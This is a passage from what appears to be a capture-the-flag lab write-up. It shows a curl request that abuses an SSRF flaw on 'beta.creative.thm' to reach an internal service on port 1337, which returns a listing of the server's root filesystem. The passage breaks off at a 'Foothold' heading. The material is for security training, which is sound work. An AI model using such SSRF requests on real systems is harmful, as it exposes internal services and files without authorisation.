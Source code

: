 We found the port 80 which means our script is working perfectly, and also found port 1337.

I'll use `curl` from now on the do the requests.

Let's check what's on port 1337 using the SSRF vulnerability.

```terminal
$ curl 'http://beta.creative.thm' -X POST --data 'url=http://127.0.0.1:1337'           
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="bin/">bin@</a></li>
<li><a href="boot/">boot/</a></li>
<li><a href="dev/">dev/</a></li>
<li><a href="etc/">etc/</a></li>
<li><a href="home/">home/</a></li>
<li><a href="lib/">lib@</a></li>
<li><a href="lib32/">lib32@</a></li>
<li><a href="lib64/">lib64@</a></li>
<li><a href="libx32/">libx32@</a></li>
<li><a href="lost%2Bfound/">lost+found/</a></li>
<li><a href="media/">media/</a></li>
<li><a href="mnt/">mnt/</a></li>
<li><a href="opt/">opt/</a></li>
<li><a href="proc/">proc/</a></li>
<li><a href="root/">root/</a></li>
<li><a href="run/">run/</a></li>
<li><a href="sbin/">sbin@</a></li>
<li><a href="snap/">snap/</a></li>
<li><a href="srv/">srv/</a></li>
<li><a href="swap.img">swap.img</a></li>
<li><a href="sys/">sys/</a></li>
<li><a href="tmp/">tmp/</a></li>
<li><a href="usr/">usr/</a></li>
<li><a href="var/">var/</a></li>
</ul>
<hr>
</body>
</html>

```

It showed us the file system!!!

## **Foothold**
